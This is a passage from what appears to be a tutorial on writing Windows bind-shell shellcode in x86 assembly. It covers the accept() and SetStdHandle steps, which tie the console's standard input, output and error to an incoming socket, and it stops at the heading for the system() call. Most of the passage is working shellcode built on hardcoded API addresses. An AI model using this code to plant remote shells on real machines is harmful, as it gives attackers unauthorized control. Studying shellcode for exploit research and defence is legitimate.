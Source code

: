 ## System call: accept

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept</a>

Syntax:
```
accept(SOCKET s, sockaddr *addr, int *addrlen)
```

As the docs says, "The accept function permits an incoming connection attempt on a socket". We need to store the return value here, which gets stored in EAX. We store a copy in EBX for later use.

```assembly
xor eax, eax         ; Clear eax
push eax             ; Arg3 (addrlen) = 0
push eax             ; Arg2 (*addr) = 0
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AC1040  ; Address to accept()
call eax
mov ebx, eax         ; Store accept() handler
```

Now finally we have the socket up and running. Time to implement the shell part.

## System call: SetStdHandle

Docs: <a href="https://docs.microsoft.com/en-us/windows/console/setstdhandle">https://docs.microsoft.com/en-us/windows/console/setstdhandle</a>

Syntax:
```
SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
```

We will call this function three times to set STD_INPUT, STD_OUTPUT and STD_ERROR to the accepted socket connection.

```assembly
mov edx, 0x7c81d363  ; Address to SetStdHandle()

push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff6      ; Arg1 (nStdHandle) = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff5      ; Arg1 (nStdHandle) = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler          
push 0xfffffff4      ; Arg1 (nStdHandle) = -0C (STD_ERROR)
call edx
```

## System call: system
